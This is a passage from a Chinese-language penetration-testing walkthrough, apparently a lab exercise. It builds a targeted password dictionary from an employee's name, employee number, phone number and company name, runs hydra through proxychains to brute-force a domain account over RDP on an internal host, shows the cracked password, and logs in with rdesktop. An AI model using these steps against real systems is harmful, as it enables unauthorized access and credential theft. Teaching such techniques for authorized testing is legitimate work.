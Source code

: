准备字典内容，回到Linux终端输入以下命令并按下回车键，使用vim命令创建并编辑TestConn.php文件，如下图所示。  

```
vim password.txt

```

  
![image-20240703140448263](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXdl8nia4BicSevibNs0mk13aV21UsXGt8yPnFmRDNCGomvlB65Oukv5JkeWfxumuesSRsJvv9rKAB8Q/640?wx_fmt=jpeg&from=appmsg "")  
  
对password.txt文件进行编辑添加相应的密码字典，按【i】键启用编辑模式，并输入以下密码组合，尝试对上述运维测试人员信息进行密码字典组合，如下图所示。  

```
xiaowang
xiaowang@zhida.com
8046732
A0107
302
jishu
xiaowangjishubu
xiaowangA0107
xwA0107
XiaoWangZhida
xwzhida
Xiaowangzhida
Xwzhida
xiaowang@A0107.
Xw@A0107.

```

  
![image-20240703140528768](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXdl8nia4BicSevibNs0mk13aVufdwINGlMDwaPOBm8551nMl8KYY7UVH9OElSuibHhiaMnBEn5z3brOrA/640?wx_fmt=jpeg&from=appmsg "")  
> 注：尝试进行密码组合，如：员工号+电话、姓名大小全拼+邮箱、姓名+集团名等等。  
  
  
编辑完成后，按下【Esc】键，退出编辑模式，输入 【:wq!】 命令并按下回车键，保存并退出文件编辑模式，如下图所示。  
  
![image-20240703131904357](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXdl8nia4BicSevibNs0mk13aV4fmwq1f8MCWRM8S6zkscessCWuBQTncSib5nZJVMXDC199SHERPhlWA/640?wx_fmt=jpeg&from=appmsg "")  
  
输入以下命令并按回车，使用hydra工具进行暴力破解10.0.18.22的rdp，尝试使用域账户【xiaowang@zhida.com】去暴力破解域用户的密码，如下图所示。  

```
proxychains hydra -l xiaowang@zhida.com -P password.txt   10.0.18.22 rdp

```

  
![image-20240703140957243](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXdl8nia4BicSevibNs0mk13aV9fjgSRT68CBaR2qZY4rZ0hScxHwaMnpibcsLiaG39aMuucrYa4t4MvHg/640?wx_fmt=jpeg&from=appmsg "")  
  
爆破后的结果为域账户【xiaowang@zhida.com】，域密码为【Xw@A0107.】，如下图所示。  
  
![image-20240703141010449](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXdl8nia4BicSevibNs0mk13aVZsbDz7Dpya0eVW9ulDlcaIdza4OXGndia4y7QtoakGCGWxjj2NzOJyQ/640?wx_fmt=jpeg&from=appmsg "")  
  
输入以下命令并按回车，为了验证所爆破出的管理员口令是否正确，使用proxychians代理rdesktop远程10.0.18.22，如下图所示。  

```
proxychains rdesktop -u xiaowang@zhida.com -p Xw@A0107. 10.0.18.22 -g 800x600

```
